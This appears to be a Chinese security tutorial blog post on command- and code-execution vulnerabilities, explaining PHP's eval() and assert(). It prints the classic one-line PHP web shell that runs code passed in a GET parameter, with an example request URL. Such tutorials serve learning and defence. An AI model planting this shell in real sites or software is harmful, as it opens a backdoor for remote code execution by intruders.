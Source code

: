```yaml
---
layout:     post
title:      命令执行漏洞进阶详解
date:       2019-1-13
author:     Wh0ale
header-img: img/1.jpg
catalog: true
tags:
    - 命令执行
---
```


# 0x01 php相关函数

## 一、代码执行

### eval()

```php
mixed eval ( string $code )
```

把字符串`code`作为php代码执行。常见的一句话木马：

```php
<?php
	eval($_GET['pass'])
?>
```

访问：

```php
http://xxx/codeexec.php?pass=phpinfo();
```

得到phpinfo()页面。

### **assert()**

PHP 5

```php
bool assert ( mixed $assertion [, string $description ] )
```

PHP 7

```php
bool assert ( mixed $assertion [, Throwable $exception ] )
```



assert() 会检查指定的 assertion 并在结果为 FALSE 时采取适当的响应。如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。

